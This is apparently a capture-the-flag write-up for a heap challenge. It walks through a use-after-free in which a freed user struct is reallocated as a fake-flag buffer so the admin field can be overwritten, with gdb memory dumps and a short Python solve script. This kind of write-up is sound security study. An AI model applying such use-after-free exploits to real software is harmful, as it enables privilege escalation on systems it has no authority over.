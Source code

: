 
The program allows us to login, sign out, print flag, lock and restore user. Login ``malloc`` a block of memory on heap, it takes the 31 bytes input for username, adds 1 byte for end of string, allocated user is pointed to by ``curr`` pointer. Sign out free the address that ``curr`` points to. Lock user operation makes ``save`` pointer points to same address as ``curr`` does, while restore operation does the opposite, it points ``curr`` to address pointed to by ``save``. If ``admin`` field is set print flag operation call ``system`` to print out the flag, otherwise, it allows us to input a fake one. 

```c
struct creds {
  void *padding;
  char name[32];
  int admin;
};

struct creds *curr;
struct creds *save;

char *fake_flag;

```

Login the first time with username ``aaaaaaaabbbbbbbbccccccccddddddd``.

```bash
0x5555556032a0: 0x0000000000000000      0x6161616161616161
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

Lock user to make ``save`` point to ``curr``, logout current user to free ``curr``, but ``save`` pointer still points to address ``0x5555556032a0``.

```bash
0x5555556032a0: 0x0000000000000000      0x0000555555603010
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

Print flag now we are allowed to input a fake flag, ``fake_flag`` pointer will be allocated an area that previously freed and pointed to by ``save`` pointer. We need to input enough bytes to cover the struct so that ``admin`` field could be set to 1.

```bash
0x5555556032a0: 0x3131313131313131      0x3131313131313131
0x5555556032b0: 0x3131313131313131      0x3131313131313131
0x5555556032c0: 0x3131313131313131      0x3131313131313131
0x5555556032d0: 0x000000000000000a      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

Now we restore user to reuse data pointed to by ``save`` pointer. Print again flag, as this moment the ``admin`` field is set to 1, we are able to get to the call to ``system`` function.

```bash
*** WINBLOWS LOGIN *********
1. Login into user.
2. Sign out.
3. Print flag.
4. Lock user.
5. Restore user.
> 3
Here's your flag:
[Detaching after vfork from child process 8343]
/bin/cat: /flag.txt: No such file or directory
```

Repeat the operations on server to get the flag.

```python
menu = Menu(remote)

menu.login('A'*31)
menu.lock_user()
menu.sign_out()
menu.print_flag(b'\x01'*40)
menu.restore_user()
menu.print_flag("")
```
